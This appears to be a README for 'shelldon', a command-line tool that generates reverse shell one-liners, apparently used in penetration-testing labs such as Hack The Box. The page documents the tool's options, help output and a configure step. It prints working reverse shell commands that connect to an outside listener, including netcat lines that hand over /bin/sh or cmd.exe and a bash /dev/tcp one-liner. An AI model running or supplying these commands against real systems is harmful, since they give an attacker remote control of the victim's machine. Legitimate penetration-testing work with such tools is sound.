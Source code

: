 The `.port` option tells shelldon what port you prefer to listen on for your reverse shells.

The `.linuxcmd` option is the location of the interactive shell you'd like to send. Ex. `nc -e /bin/sh 10.0.0.1 53`

The `.windowscmd` option is what will be used instead if the -w option is specified. Ex. `nc.exe -e cmd.exe 10.0.0.1 53`

# Usage
```
root@kali:/opt/shelldon# shelldon --help
usage: shelldon [-h] [-c COMMAND] [-i IP] [-p PORT] [-a] [-w] [-y] [-e {single,double,both}] method

Generate a customizable reverse shell with little effort!

positional arguments:
  method                (configure, bash, perl, python, php, ruby, nc, java, powershell, ssh)

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND            Non-regular name of program (Ex. nc.exe)
  -i IP, --ip IP        Listening ip address
  -p PORT, --port PORT  Listening port
  -a, --alternate       Alternate functionality
  -w, --windows         Runs cmd.exe instead of /bin/sh
  -y, --clipboard       Saves command to clipboard instead of printing
  -e {single,double,both}, --escape {single,double,both}
                        Escapes single or double quotes. Useful for pasting

Thanks, Shelldon!
```

# Methods
## Configure
```
root@kali:/opt/shelldon# shelldon configure
Possible configurations: ['default', 'htb']
Enter new initial configuration: htb
Initial configuration changed to htb (was default)
```
The configure method allows you to change the initial configuration (located in the shelldon.conf file) used.

## Bash
```
root@kali:/opt/shelldon# shelldon bash
/bin/sh -i >& /dev/tcp/10.0.0.1/53 0>&1
```
- **No COMMAND funcionality**
- **No --alternate funcionality**
